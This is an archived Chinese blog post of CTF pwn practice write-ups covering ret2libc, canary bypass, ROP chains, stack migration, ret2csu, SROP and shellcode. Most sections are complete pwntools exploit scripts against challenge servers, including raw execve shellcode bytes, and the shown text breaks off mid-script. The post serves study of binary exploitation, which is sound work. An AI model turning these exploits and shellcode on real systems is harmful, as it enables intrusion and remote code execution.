layout: post
title: （archived）ctf练习(pwn)
author: junyu33
mathjax: true
tags: 

- pwn

categories:

  - ctf

date: 2022-2-7 22:00:00

---

分为stack、fmtstr、heap、misc四部分，用作记录思路和用得上的gadget。

以下二级标题不带网站的默认为buuoj对应分区题目。

> updated on 2022/10/23: 
>
> buu前五页已经完成，该专栏将不再更新具体的思路与exp。
>
> 接下来可能学内核、高版本的house系列，比赛的题解会单独开文章，并在对应的栏目添加文章链接。

<!-- more -->

# stack

## ctfshow-pwn-3: pwn03——ret2libc

可以使用 https://libc.blukat.me/ 查询libc库的各函数地址，再根据偏移计算其他函数的实际地址。

也可以使用[LibcSearcher](https://github.com/lieanu/LibcSearcher)自动化完成这一过程。

exp（without LibcSearcher）：

```python
from pwn import *

context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h"]
#io = process("./stack1")
io = remote('pwn.challenge.ctf.show', 28199)

elf = ELF("./stack1")
puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]
main_addr = elf.symbols["main"]
payload1 = flat(b"A" * (9 + 4), puts_plt, main_addr, puts_got)  # 泄露puts_got
io.recvuntil("\n\n")
io.sendline(payload1)
puts_addr = unpack(io.recv(4))
print(hex(puts_addr))
# 0xf7d6d360 查一下 https://libc.blukat.me/

puts_libc = 0x067360
system_libc = 0x03cd10
str_bin_sh_libc = 0x17b8cf

base = puts_addr - puts_libc
system = base + system_libc
bin_sh = base + str_bin_sh_libc

payload2 = flat('a' * 13, system, 1, bin_sh )
io.sendline(payload2)
io.interactive()
```

exp (with LibcSearcher, tested)

```python
from pwn import*
from LibcSearcher import*
elf=ELF('./pwn03')
#io=process('./pwn03')
io=remote('111.231.70.44',28021)
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
main=elf.symbols['main']
payload1=b'a'*13+p32(puts_plt)+p32(main)+p32(puts_got)
io.sendline(payload1)
io.recvuntil('\n\n')
puts_add=u32(io.recv(4))
print(puts_add)

libc=LibcSearcher('puts',puts_add)
libcbase=puts_add-libc.dump('puts')
sys_add=libcbase+libc.dump('system')
bin_sh=libcbase+libc.dump('str_bin_sh')
payload2=b'a'*13+p32(sys_add)+b'a'*4+p32(bin_sh)
io.sendline(payload2)
io.interactive()
```

## pwn1_sctf_2016

c++乱入系列，那个`replace()`直接没看懂。

而且自己的输入长度超过31就会被截断，完全无法栈溢出。

后来看了题解才知道`replace()`是把你输入的`I`全部替换成`you`。

再结合`vuln()`最后使用了危险的`strcpy()`函数，我一下子就知道怎么做了。

因为输入点与retn的偏移是60，因此只需要输入20个`I`，再加上后门地址即可。

看来以后碰到奇怪的字符串得输进去试试，说不定会有新发现。

## ctfshow-pwn-4: pwn04——buffer overflow with canary

带canary的栈溢出，可以读入2次并输出buf串。

通过IDA调试可知，canary的位置紧邻buf串且在它下游，因此不能直接覆盖到返回地址。

但是canary的最高位始终是0，我们便有了如下办法：

> 第一次读入时只将缓冲区填满，最后的换行符覆盖canary的高位，在第二次输入时减去这个换行符对应的ascii即可。

```python
from pwn import*
context.log_level = 'debug'
#elf=ELF('./stack1')
io=process('./ex2')
#io=remote('pwn.challenge.ctf.show', 28140)

payload1=b'I'*100
io.recvuntil('\n')
io.sendline(payload1)
fst_str = io.recvuntil('\x68') #canary之后一个固定的字节
#print(hex(u32(fst_str[-5:-1])))

canary = u32(fst_str[-5:-1])
payload2=b'I'*100+p32(canary-0xa)+b'bbbbccccdddd'+p32(0x804859b) #'0xa'是换行符的ascii
io.sendline(payload2)

io.interactive()
```

~~原来这叫格式化字符串漏洞啊~~

## ctfshow-pwn-6: pwn06——64bit buffer overflow

64位栈溢出与32位的一个不同点是必须保证堆栈平衡，因此需要return两次。

~~但是在本地，我return一次就成功了。至今不知道原因~~

```python
from pwn import*
#context.log_level = 'debug'

#elf=ELF('./stack1')
#io=process('./pwn')
io=remote('pwn.challenge.ctf.show', 28122)

payload1=b'I'*12+b'AAAAAAAA'+p64(0x4005b6)+p64(0x400577)
io.sendline(payload1)

io.interactive()
```

## ctfshow-pwn-7: pwn07——64bit ret2libc

64位的pwn3.

由于[64位的传参方式](https://junyu33.github.io/2022/01/15/csapp.html#%E8%BF%87%E7%A8%8B)为“前6个是寄存器，之后使用栈”，退栈的时候要取出寄存器的值。因此需要找到`pop_rdi`和`pop_ret`的值，并插入到payload中。

找`pop_rdi`和`pop_ret`指令地址的命令：

```shell
ROPgadget --binary pwn --only 'pop|ret' 
```

然后payload格式是这样的：

```python
# for 32 bit
b'a'*offset + p32(puts_plt) + p32(ret_addr) + p32(puts_got)
b'a'*offset + p32(sys_addr) + b'A'*4 + p32(str_bin_sh)
# for 64 bit
b'a'*offset + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(ret_addr)
b'a'*offset + """p64(pop_ret)""" + p64(pop_rdi) + p64(str_bin_sh) + p64(sys_addr)
```

exp (with LibcSearcher, tested)

```python
# ctf.show - libc6_2.27
from pwn import*
from LibcSearcher import*
context.log_level = 'debug'
elf=ELF('./pwn')
#io=process('./pwn')
io=remote('pwn.challenge.ctf.show',28184)
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
main=elf.symbols['main']

pop_rdi = 0x4006e3
pop_ret = 0x4004c6

payload1=b'a'*20+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
io.sendline(payload1)
io.recvline()
str_first = io.recv(6).ljust(8,b'\x00')
puts_add=u64(str_first)
print(hex(puts_add))

libc=LibcSearcher('puts',puts_add)

libcbase=puts_add-libc.dump('puts')
sys_add=libcbase+libc.dump('system')
bin_sh=libcbase+libc.dump('str_bin_sh')

payload2=b'a'*20+p64(pop_ret)+p64(pop_rdi)+p64(bin_sh)+p64(sys_add)
io.sendline(payload2)
io.interactive()
```

~~然而神奇的是这个代码本地又不行了~~

## ciscn_2019_c_1

带加密的pwn07.（经过测试发现，其实不对输入做处理也可以getshell）

获取got表地址的exp：

```python
io.recvuntil('!\n')
io.sendline(b'1')
io.recvuntil('\n')
payload1=b'l'*88+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
io.sendline(payload1)
io.recvline()
io.recvline()

str_first = io.recv(6).ljust(8,b'\x00')
```

也就是这个位置：


> 为什么pop_rdi的地址还在那个位置，而且长度还变短了？


## xctf-pwn-(beginner)-7: cgpwn2——ret2libc with system

带system，不带`'/bin/sh'`的ret2libc，关键部分如下：

```python
payload = b'a'*42 + p32(gets_plt) + p32(pop_ebx) + p32(buf2) + p32(system_plt) + p32(0xdeadbeef) + p32(buf2)
io.sendline(payload)
io.sendline('cat flag')
```

**原理有空再补。**

## xctf-pwn-(beginner)-8: level3——re2libc without puts

依旧是ret2libc，只不过没有`puts`函数，泄露libc地址的payload需要变化一下：


```python
payload = flat([b'A' * 140, write_plt, main, 1, write_got, 4]) # the last three are arguments of "write"
```

很不幸，这次Libcsearcher的匹配结果都没有用，但是题目下发了一个`libc_32.so.6`，我们需要利用这个文件本地导入libc库。

```python
libc=ELF('./libc_32.so.6') #import

libcbase = libc_start_main_addr - libc.symbols['write'] 
system_addr = libcbase + libc.symbols['system'] #leak
binsh_addr = libcbase + 'bin_sh_addr' # we can't use 'symbols' to get address, we do it manually.
```

那么`'bin/sh'`怎么办呢，使用这个bash：

```sh
strings -a -t x libc_32.so.6 | grep "bin/sh" 
```

### 如何在本地打通libc——3/18/2022

```sh
ls -l /lib/x86_64-linux-gnu/libc.so.6 # find your local libc, it's "libc-2.27.so" in wsl ubuntu 18.04.
# make sure to change your "import" and your "strings & grep" commands. 
```

> 获得成就：xctf-pwn新手区完结撒花！


## get_started_3dsctf_2016——rop1

32bit。

程序给了一个读取flag的后门，但需要你传入正确的两个参数。

学会了gdb调试，回忆起来了return addr和函数参数之前隔了一个返回地址。函数参数是正序书写的。

程序在exit时会刷新缓冲区地址，从而可以用`recv()`得到文件输出。

```python
from pwn import*
from LibcSearcher import*

#io = process(argv = ['./get_started_3dsctf_2016'])
io = remote('node4.buuoj.cn', 27428)

backdoor = 0x80489a0
exit_addr = 0x804e6a0
arg1 = 0x308CD64F
arg2 = 0x195719D1
#gdb.attach(io, 'b *0x8048a3d')
context.log_level = 'debug'

payload1 = b'a'*56 + p32(backdoor) + p32(exit_addr) +p32(arg1) + p32(arg2)

io.sendline(payload1)

print(io.recv())

#io.interactive()

```

## not_the_same_3dsctf_2016——rop2

>这里有个函数，已经将flag的值读取并输入到了fl4g的位置，所以我们先用这个函数填充到返回地址处，把flag先读取到fl4g为起始地址的内存中，接下来试着把这里的内容泄露出来，即可获取flag。所以我们需要write函数，并且因为write函数有三个参数，~~所以还需要pop三个寄存器的指令进行清理栈，最后的p32(0)是pop中含着的ret操作，所以还需要再加一个返回地址，因为我们已经输出了flag，所以返回地址并不需要在意是哪，随便都可。~~具体exp如下
>————————————————
>版权声明：本文为CSDN博主「ShouCheng3」的原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接及本声明。
>原文链接：https://blog.csdn.net/qq_51232724/article/details/124057645

~~不太懂这个rop的操作。其实那个pop3换成其他地址好像也没有影响。~~

现在懂了，因为这是32位，后面三个相当于参数，不需要寄存器pop。

```python
from pwn import *
from LibcSearcher import *
#io = process('123')
io = remote('node4.buuoj.cn', 27043)
elf = ELF('123')
context.log_level = 'debug'

flag_addr = 0x80eca2d
get_flag = 0x80489a0
pop3 = 0x80483b8
write_addr = elf.symbols['write']
#print(hex(write_addr))

payload = b'a'*(45) + p32(get_flag)+p32(write_addr)+p32(pop3)+p32(1)+p32(flag_addr)+p32(42)
#gdb.attach(io, 'break *0x8048a00')
io.sendline(payload)
#io.recv()
print(io.recv())
io.interactive()

```

## [HarekazeCTF2019]baby_rop2——rop3

```python
#rop
#printf("your input is %s!", buf);
payload1 = b'a'*(0x20+8) + p64(pop_rdi) + p64(fmt_addr) #1st argument of printf -> rdi
payload1 += p64(pop_rsi_r15) + p64(read_got) + p64(0) #2nd argument of printf -> rsi
payload1 += p64(printf_plt) + p64(main_addr) #call printf_plt to output the got of read()

payload2 = b'a'*(0x20+8) + p64(pop_rdi) + p64(bin_sh)+ p64(sys_addr)
```

这里第二行使用`read_got`而不使用`printf_got`的原因是`printf`不支持末尾零截断。


## ciscn_2019_es_2——stack migration1

适用于payload长度较短的情况，将rop写在栈中，通过修改ebp的值劫持程序执行流到构造的rop附近，从而执行自己的rop。

此题read长度限制为`sizeof(buf)+8`，故不能直接使用之前的`retlibc3`

缓冲区变量与上层函数的ebp通过动调得到：



如图所示，`0xffffcdd8 - 0xffffcda0 = 0x38`，就是篡改的栈帧ebp到输入的偏移。

```python
from pwn import *

def hijackebp():
   payload1 = b'a'*0x27 + b'b'
   io.sendafter('Welcome, my friend. What\'s your name?\n', payload1) # !!! send, not sendline !!!
   io.recvuntil('b')
   ebp = u32(io.recv(4)) # the value of ebp ([ebp])
   s = ebp - 0x38 # the offset between [ebp] and your input argument (get this by debugging)
   return s

def exploit(s):
   payload2 = (p32(fake_ebp) + p32(sys_plt) + p32(vul) + p32(s + 0x10) + b'/bin/sh').ljust(0x28, b'\0')
   # fake ret_addr, true ret_addr 
   payload2 += p32(s) + p32(leave)
   # input_addr, leave_ret_rop
   io.sendline(payload2)

if __name__ == "__main__":
   #io = process('./ciscn_2019_es_2')
   io = remote('node4.buuoj.cn', 25446)
   context.log_level = 'debug'
   elf = ELF('./ciscn_2019_es_2')

   sys_plt = elf.sym['system']
   leave = 0x080484b8
   vul = 0x8048595

   input_addr = hijackebp()
   exploit(input_addr)
   
   io.interactive()
```


## ciscn_2019_s_3——ret2csu

本题的要点是执行`execve('/bin/sh',0,0)`这个函数，调用这个函数需要有`syscall`指令，并且需要满足`rax = 0x3b, rdi = <bin_sh_addr>, rsi = rdx = 0`这几个条件。

可以从`ROPgadget`中得到`pop rdi`与`pop rsi`这几个gadget从而成功传参，`mov rax，3bh`也可以从`gadgets`函数附近得到。但是并没有任何直接的退栈指令涉及到`rdx`寄存器，而且程序中没有`/bin/sh`字符串，需要自行插入且找到它在栈中的地址。

通过在IDA中寻找`rdx`字符串，可以找到唯一可能改变`rdx`值的指令在`__libc_csu_init`中，以下是其反汇编代码（后半部分）：

### __libc_csu_init source

```assembly
.text:0000000000400580                                   loc_400580:                   ; CODE XREF: __libc_csu_init+54↓j
.text:0000000000400580 038 4C 89 EA                      mov     rdx, r13
.text:0000000000400583 038 4C 89 F6                      mov     rsi, r14
.text:0000000000400586 038 44 89 FF                      mov     edi, r15d
.text:0000000000400589 038 41 FF 14 DC                   call    ds:(__frame_dummy_init_array_entry - 600E10h)[r12+rbx*8]
.text:0000000000400589
.text:000000000040058D 038 48 83 C3 01                   add     rbx, 1
.text:0000000000400591 038 48 39 EB                      cmp     rbx, rbp
.text:0000000000400594 038 75 EA                         jnz     short loc_400580
.text:0000000000400594
.text:0000000000400596
.text:0000000000400596                                   loc_400596:                   ; CODE XREF: __libc_csu_init+34↑j
.text:0000000000400596 038 48 83 C4 08                   add     rsp, 8
.text:000000000040059A 030 5B                            pop     rbx
.text:000000000040059B 028 5D                            pop     rbp
.text:000000000040059C 020 41 5C                         pop     r12
.text:000000000040059E 018 41 5D                         pop     r13
.text:00000000004005A0 010 41 5E                         pop     r14
.text:00000000004005A2 008 41 5F                         pop     r15
.text:00000000004005A4 000 C3                            retn
.text:00000000004005A4                                   ; } // starts at 400540
.text:00000000004005A4
.text:00000000004005A4                                   __libc_csu_init endp
```

我们的目标是`mov rdx, r13`这个指令，因为`r13`在退栈序列当中，因此可以插入`pop_6`这个gadget，然后跟上6个地址。其中`r13, r14`就必须置0，以对应接下来到`chg_rdx`的跳转。

接着是`call [r12+rbx*8]`的问题，理论上说，这个指令可以实现任意地址的跳转，这里我选择直接跳到下一个指令（其实可以完全跳到下一个gadget），因此可以设`[r12] = 0x40058d, rbx = 0`。

如何得到`r12`的值呢？可以肯定它跟输入地址存在固定的偏移。可以通过编写一个gadget指向其本身的payload来额外打印当前栈的信息。我将`/bin/sh`字符串设在了输入的位置，输入位置与`input_addr+0x20`处值的偏移可以通过动调得到（在远程做的时候这个偏移与本地可能不同，但相差不大，慢慢试就行）。

为了避免`0x400594`处的循环，应当设置`rbx + 1 == rbp`，这里我选择令`rbp = 1`，然后再随便传6个地址出栈。

由于`mov edi, r15d`会将`rdi`的高位置零，故需要再次设置一个`pop_rdi`的payload。最后调用`syscall`即可。

> buu第一页完结撒花~

```python
eax_59 = 0x4004e2 # rax = 0x3b
get_sys = 0x400517
pop_rdi = 0x4005a3
vuln = 0x4004ed
pop_6 = 0x40059a
chg_rdx = 0x400580
'''
rax = 59
execve('/bin/sh',0,0); rdi,rsi,rdx

offset = 0x128
'''
def exploit():
   payload0 = b'a'*16 + p64(vuln)
   io.send(payload0)
   input_addr = u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))-0x118 # in local it's 0x128
   log.success('input_addr==>'+hex(input_addr))

   payload1 = b'/bin/sh\0' + p64(0x40058d) + p64(eax_59)
   #payload1 += p64(pop_r15) + p64(pop_r15) + p64(get_sys)
   #mov rdi=inputaddr, rsi=0, rdx=0
   payload1 += p64(pop_6) + p64(0) + p64(1) + p64(input_addr+8) + p64(0) + p64(0) + p64(0) 
   payload1 += p64(chg_rdx) + p64(0)*6
   payload1 += p64(pop_rdi) + p64(input_addr)
   payload1 += p64(get_sys)

   io.send(payload1)
```


## [Black Watch 入群题]PWN 1——stack migration2

~~这年头入群都那么难了~~

栈迁移需要将你的rop写到一个固定的段中（比如bss段），然后通过修改ebp的值达到栈转移的目的。适用于缓冲区溢出长度较短的情况。

```python
payload1 = p32(fake_ebp) + p32(write_plt) + p32(vuln) + p32(1) + p32(write_got) + p32(4)
# rop of write_got leak written to bss segment
payload2 = b'a'*(24) + p32(bss) + p32(leave_ret)
# stack overflow in vuln function, aware that leave command makes ebp increase 4 bytes
```

## cmcc_simplerop——statically_linked rop

静态链接查看方式：file命令。

### method 1——manual rop

这个rop将read函数交给用户来输入，属于先前未见过的类型，比较巧妙。

```python
def exploit():
   read = 0x806cd50
   pop_edx_ecx_ebx = 0x806e850
   pop_eax = 0x80bae06
   int_80 = 0x080493e1
   buf = 0x80ec304 # any address inside the program is OK.

   payload = flat([b'a'*32, read, pop_edx_ecx_ebx, 0, buf, 8]) #8 is len('/bin/sh\0')
   payload += flat([pop_eax, 0xb, pop_edx_ecx_ebx, 0, 0, buf])
   payload += flat(int_80)
   io.sendline(payload)
   io.sendline(b'/bin/sh\0')
```

### method 2——ropper execve

```sh
ropper -f <file> --chain execve
```

**注意生成的语法是py2语法，需要手动将str改成bytes**

虽然`ropper`生成的rop比`ROPgadget`要短一些，但依旧达不到`read`的限制。

```python
def exploit():
   p = lambda x : pack('I', x)

   IMAGE_BASE_0 = 0x08048000
   rebase_0 = lambda x : p(x + IMAGE_BASE_0)

   rop = b'a'*32

   rop += rebase_0(0x00072e06) # 0x080bae06: pop eax; ret; 
   rop += b'//bi'
   rop += rebase_0(0x0002682a) # 0x0806e82a: pop edx; ret; 
   rop += rebase_0(0x000a2060)
   rop += rebase_0(0x0005215d) # 0x0809a15d: mov dword ptr [edx], eax; ret; 
   rop += rebase_0(0x00072e06) # 0x080bae06: pop eax; ret; 
   rop += b'n/sh'
   rop += rebase_0(0x0002682a) # 0x0806e82a: pop edx; ret; 
   rop += rebase_0(0x000a2064)
   rop += rebase_0(0x0005215d) # 0x0809a15d: mov dword ptr [edx], eax; ret; 
   rop += rebase_0(0x00072e06) # 0x080bae06: pop eax; ret; 
   rop += p(0x00000000)
   rop += rebase_0(0x0002682a) # 0x0806e82a: pop edx; ret; 
   rop += rebase_0(0x000a2068)
   rop += rebase_0(0x0005215d) # 0x0809a15d: mov dword ptr [edx], eax; ret; 
   rop += rebase_0(0x000001c9) # 0x080481c9: pop ebx; ret; 
   rop += rebase_0(0x000a2060)
   rop += rebase_0(0x0009e910) # 0x080e6910: pop ecx; push cs; or al, 0x41; ret; 
   rop += rebase_0(0x000a2068)
   rop += rebase_0(0x0002682a) # 0x0806e82a: pop edx; ret; 
   rop += rebase_0(0x000a2068)
   rop += rebase_0(0x00072e06) # 0x080bae06: pop eax; ret; 
   rop += p(0x0000000b)
   rop += rebase_0(0x00026ef0) # 0x0806eef0: int 0x80; ret; 
   io.sendline(rop)
```

这时候需要手动魔改一下，先前学的汇编知识就派上用场了：

```python
def exploit():
   p = lambda x : pack('I', x)

   IMAGE_BASE_0 = 0x08048000
   rebase_0 = lambda x : p(x + IMAGE_BASE_0)

   rop = b'a'*32

   rop += rebase_0(0x00072e06) # 0x080bae06: pop eax; ret; 
   rop += b'/bin'
   rop += rebase_0(0x0002682a) # 0x0806e82a: pop edx; ret; 
   rop += rebase_0(0x000a2060)
   rop += rebase_0(0x0005215d) # 0x0809a15d: mov dword ptr [edx], eax; ret; 

   rop += rebase_0(0x00072e06) # 0x080bae06: pop eax; ret; 
   rop += b'/sh\0'
   rop += rebase_0(0x0002682a) # 0x0806e82a: pop edx; ret; 
   rop += rebase_0(0x000a2064)
   rop += rebase_0(0x0005215d) # 0x0809a15d: mov dword ptr [edx], eax; ret; 

   rop += p(0x806e850) # 0x806e850: pop edx; pop ecx; pop ebx; ret;
   rop += p(0)
   rop += p(0)
   rop += rebase_0(0x000a2060)
   
   rop += rebase_0(0x00072e06) # 0x080bae06: pop eax; ret; 
   rop += p(0x0000000b)
   rop += rebase_0(0x00026ef0) # 0x0806eef0: int 0x80; ret; 
    
   print(len(rop))
   io.sendline(rop)
```

长度刚好100，可以通过。

### method 3——mprotect+shellcode

`int mprotect(const void *start, size_t len, int prot);`

> 第一个是开辟的地址起始位置，需要和内存页对齐，也就是能被0x1000整除；第二参数也需要是内存页的整数倍；第三个是开辟的内存属性，1代表可读，2代表可写，4代表可执行，7代表可读可写可执行。
>
> https://blog.csdn.net/A951860555/article/details/115286266

```python
def exploit():
   read = 0x806cd50
   mprotect = 0x806d870
   buf = 0x8050000 # must be multiple of 0x1000
   pop_edx_ecx_ebx = 0x806e850
   shellcode = asm(shellcraft.sh())

   payload = flat([b'a'*32, mprotect, pop_edx_ecx_ebx, buf, 0x1000, 7])
   payload += flat([read, pop_edx_ecx_ebx, 0, buf, len(shellcode)])
   payload += flat(buf)

   io.sendline(payload)
   io.sendline(shellcode)
```

## wustctf2020_getshell_2——system call

本来以为需要搞栈迁移，结果一个`system call`就搞好了，节省了4字节的空间。

```python
system_call = 0x8048529
sh = 0x8048670
payload = 'a'*28 + p32(system_call)+p32(sh)
```


## pwnable_start

长度23字节的shellcode：`b'\x31\xc0\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xb0\x0b\xcd\x80'`

或者20字节的`b'\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'`

ret2shellcode，调用write函数泄露栈地址。

> buu第二页完结撒花~

```python
def exploit():
   shellcode = b'\x31\xc0\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xb0\x0b\xcd\x80'
   payload = b'a'*20 + p32(0x8048087)
   io.send(payload)
   io.recvuntil('CTF:')
   buf = u32(io.recv(4))
   payload = b'a'*20 + p32(buf+0x14) + shellcode
   io.sendline(payload)
```


## nepctf2022: nyancat——syscall

由于开启了NX保护,从而不能直接写shellcode.

```python
def exploit():
   payload1 = b'a'*16 + p32(0x80480f0) + p32(0x8048115) 
   payload1 += p32(0) + p32(0x804b090) + p32(0x804b097) + p32(0)
   # 0 is fd, 0x804b090 is buf and the memory of 0x804b097 is 0 (so ebx = edx = 0, ecx = flag_addr)
   # after return, ecx = edx = 0 && ebx = ecx = flag_addr    
   io.send(payload1)

   payload2 = b'/bin/sh'.ljust(0xb, b'\0') # the length of the input (eax) is 0xb, time to getshell
   io.send(payload2)
```

## gyctf_2020_borrowstack——stack migration3

对于多次栈迁移的情况，要先写好下次的bss段，作为ebp/rbp。

```python
def exploit():
   puts_got = elf.got['puts']
   puts_plt = elf.plt['puts']

   payload1 = b'a'*offset + p64(bss+0x90) + p64(leave_ret)
   p.send(payload1)
   payload2 = b'\0'*0x90 + p64(bss+0x60) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(read_leave)
   p.send(payload2)

   puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, b'\0'))
   libc_base = puts_addr - libc.sym['puts']
   one_gadget = libc_base + one_gadget_local

   payload3 = b'\0'*0x60 + p64(0) + p64(one_gadget)
   p.send(payload3)
```

## qwb2022_devnull——stack migration+rop

64位shellcode:`b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'`

第一次栈溢出（off by one）通过将fd改为0实现输入。

第二次栈溢出修改buf指针与rbp，并进行栈迁移。

第三次栈溢出将buf头部赋为要修改rwx权限的地址，与rop结合把给定地址rwx权限修改，从而执行最后的shellcode。

最后将输出重定向到标准错误即可。

```python
shellcode = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'

cross = 0x3fe3c0
leave_ret = 0x401354
chg_rax = 0x401350 # mov rax, qword ptr [rbp - 0x18] ; leave ; ret
mprotect = 0x4012d0

def exploit():
   payload1 = b'a'*0x20 
   p.sendafter('filename\n', payload1)
   payload2 = b'b'*(0x1c-8) + p64(cross-0x10) + p64(cross) + p64(leave_ret)
   p.sendafter('discard\n', payload2)
   payload3 = p64(0x3fe000)*2 + p64(cross+8) + p64(chg_rax) + p64(mprotect) 
   payload3 += p64(0xdeadbeef) + p64(cross+0x28) + shellcode
   p.send(payload3)
```

## jarvisoj_level5——ret2csu2

用了修改寄存器的通用模板。

https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/medium-rop/#ret2csu

```python
csu_front_addr = 0x400690
csu_end_addr = 0x4006AA
fakeebp = b'b' * 8
pop_rdi = 0x4006b3

def csu(rbx, rbp, r12, r13, r14, r15, last):
   # pop rbx,rbp,r12,r13,r14,r15
   # rbx should be 0,
   # rbp should be 1,enable not to jump
   # r12 should be the function we want to call
   # rdi=edi=r15d
   # rsi=r14
   # rdx=r13
   payload = b'a' * 0x80 + fakeebp
   payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(r13) + p64(r14) + p64(r15)
   payload += p64(csu_front_addr)
   payload += b'a' * 0x38
   payload += p64(last)
   p.send(payload)

def exploit():
   write_got = elf.got['write']
   main_addr = elf.symbols['main']

   csu(0, 1, write_got, 8, write_got, 1, main_addr)
   write_addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
   libc_base = write_addr - libc.symbols['write']
   print(hex(write_addr), hex(libc_base))
   system_addr = libc_base + libc.symbols['system']
   binsh_addr = libc_base + next(libc.search(b'/bin/sh\0'))
   payload2 = b'a'*0x88 + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)
   p.sendline(payload2)
```

## cmcc_pwnme2

注意观察`exec_string`函数：

```c
int exec_string()
{
  char s; // [esp+Bh] [ebp-Dh] BYREF
  FILE *stream; // [esp+Ch] [ebp-Ch]

  stream = fopen(&string, "r");
  if ( !stream )
    perror("Wrong file");
  fgets(&s, 50, stream);
  puts(&s);
  fflush(stdout);
  return fclose(stream);
}
```

它可以将string中的内容直接重定向到shell，不知道是什么原理。

```python
def exploit():
   payload = b'A' * 112 + p32(elf.sym['gets']) + p32(exec_string) + p32(string_addr)
   io.sendline(payload)
   io.sendline('/flag')
```

## spqr——stack off by null

除了aslr保护全关，vuln函数是一个长度为16的buf与`scanf("%16s", buf)`.

可以通过off by null将rbp末位置0，如果刚好是buf，那么可以通过`ret`写asm。进而通过asm调用`sys_read`，写入shellcode再`jmp`进去。

由于编译器与系统差异，本地无法构造长度小于8的shellcode，本地未通过。

```python
ret = 0x400406
shellcode2 = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'
def exploit():
   shellcode = asm('''
      xchg rdx, rdi; 
      mov rsi, rdx; 
      syscall; 
      jmp rsi
   ''')
   print(len(shellcode)) # the length is 10, it's unable to getshell

   payload = shellcode.ljust(8, b'\0') + p64(ret)

   io.sendline(payload)
   io.sendline(shellcode2)
```

## 极客大挑战_not bad——orw+stack migration

orw通用读flag代码:

```python
shellcode = shellcraft.open('/flag')
shellcode += shellcraft.read('rax','rsp',100)
shellcode += shellcraft.write(1,'rsp',100)
payload = asm(shellcode)
io.send(payload)
```

exp:

```python
vmmap = 0x123000
jmp_rsp = 0x400a01

def exploit():
   asmcode = asm('''
      xor rax, rax;
      xor rdi, rdi;
      mov rsi, 0x123000;
      mov rdx, 0x1000;
      syscall;
      jmp rsi
   ''')
   payload = asmcode.ljust(40, b'\0') + p64(jmp_rsp)
   payload += asm('''
      sub rsp, 0x30;
      jmp rsp
   ''') # buf(0x20)+rbp(0x8)+ret(0x8)=0x30

   io.send(payload)
   
   shellcode = shellcraft.open('/flag')
   shellcode += shellcraft.read('rax','rsp',100)
   shellcode += shellcraft.write(1,'rsp',100)
   payload = asm(shellcode)
   io.send(payload)
```

## qwb2019_babymimic

一道拟态的rop。程序给了一个32位一个64位的文件，执行的功能完全一致，唯一的不同之处就是栈的大小。

由于是静态编译，可以使用ropper直接写ropchain。

至于payload的构造可以参考这个：


由于payload是先基于64位再搭建出32位的，这里说一下32位的执行流：

- 当eip执行到`vuln`的ret时，esp在0x10c处。
- 当eip执行到0x110处时，esp在0x110处。
- 下一步，eip到了0x114，esp为0x110+4+0x10c=0x114+0x10c
- 下一步，eip执行`pop eax, ret`即`pop eax, pop eip`，eip在[0x118+0x10c]处，开始执行之后的rop

```python
def exploit():
   # 0x10c+4 32bit
   # 0x110+8 64bit
   ret_10c = 0x08099bbe
   pop_eax_ret = 0x80a8af6 # pop_eax_ret == rop[:4]
   payload = b'a'*0x110+p32(ret_10c)+p32(pop_eax_ret)+rop64.ljust(0x10c, b'\0')+rop[4:] 
   io.send(payload)
```

## rootersctf_2019_srop

执行`sigreturn`的条件只有`rax == 15`且执行`syscall`.

可以通过pwntools集成了`SigreturnFrame()`来修改指定的寄存器.

本题先通过`syscall`后的`leave; ret`抬栈，把buf设置在固定位置，在下一次输入时直接将`'/bin/sh\0'`写入指定位置，然后使用`sys_execve`调用。

```python
def exploit():
   syscall = 0x401033
   buf = 0x402000
   pop_rax_syscall = 0x401032

   frame=SigreturnFrame()
   frame.rax = constants.SYS_read
   frame.rdi = 0
   frame.rsi = buf
   frame.rdx = 0x400
   frame.rbp = buf
   frame.rip = syscall

   payload = b'a'*0x88 + p64(pop_rax_syscall) + p64(15) + bytes(frame)
